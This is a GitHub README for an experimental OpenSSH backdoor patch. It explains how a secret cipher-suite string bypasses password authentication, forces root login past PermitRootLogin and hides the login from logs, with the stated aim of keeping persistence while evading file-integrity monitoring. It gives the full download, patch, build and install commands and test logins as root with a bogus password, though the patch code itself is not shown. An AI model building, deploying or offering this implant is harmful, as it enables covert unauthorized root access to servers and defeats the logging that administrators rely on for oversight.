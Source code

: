 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. Patch for OpenSSH Portable v8.8_p1. For educational/ethical purposes only!

## Why?

Consider using this method when you want persistence, but:

 - FIM is monitoring configuration files, but not binaries
 - You don't want to create a new backdoor user 
 - You don't want to deploy a reverse shell

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server, adding new users, overwriting credentials, or deploying an implant such as a reverse shell. 

The patch creates a dummy cipher suite, in this case `aes128-3des` that functions as an activation phrase. Any client that sends this dummy cipher spec during the SSH [algorithm negotiation](https://datatracker.ietf.org/doc/html/rfc4253#section-7.1) will completely bypass PASSWD authentication on the patched server, and will also bypass authentication logging. Clients connecting with normal cipher specs will authenticate as normal.

Additionally, the patch overrides `PermitRootLogin`, allowing clients sending the activation phrase to login as root regardless of the OpenSSH server's restriction. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server binary in `/tmp/sshd`. 

```
wget https://github.com/openssh/openssh-portable/archive/refs/tags/V_8_8_P1.tar.gz
gunzip V_8_8_P1.tar.gz
tar xvf V_8_8_P1.tar
git clone https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable-V_8_8_P1/
cd openssh-portable-V_8_8_P1/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u packet.c -i packet.c.patch
patch -u servconf.c -i servconf.c.patch
autoreconf
./configure --bindir=/tmp/ --sbindir=/tmp/
make -j 24
sudo make install
```

To test, run the modified server binary and set it to listen on some port:

```
sudo /tmp/sshd -p 9001
```

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
```

Attempt to authenticate with the special cipher suite string, in this case `aes128-3des`, and a bogus password. This should seccessfully authenticate you as root. The backdoor authentication will not be logged either during login or logout. 
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "aes128-3des,chacha20-poly1305@openssh.com"
```
